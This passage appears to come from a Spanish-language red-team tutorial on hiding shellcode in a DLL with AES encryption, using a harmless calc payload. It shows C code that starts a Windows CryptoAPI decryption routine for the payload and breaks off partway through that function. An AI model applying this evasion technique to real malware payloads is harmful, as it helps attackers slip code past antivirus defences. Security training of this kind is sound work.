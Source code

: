 ![xor_dll_encription](/assets/images/xor_dll_encryption.png)

## DLL calc shellcode Encriptacion AES

```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#include <psapi.h>
#pragma comment (lib, "user32.lib")
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")


extern "C" {

int AESDecrypt(byte * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;
		DWORD * pointer_len = (DWORD *)&payload_len; 
        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, pointer_len)){
```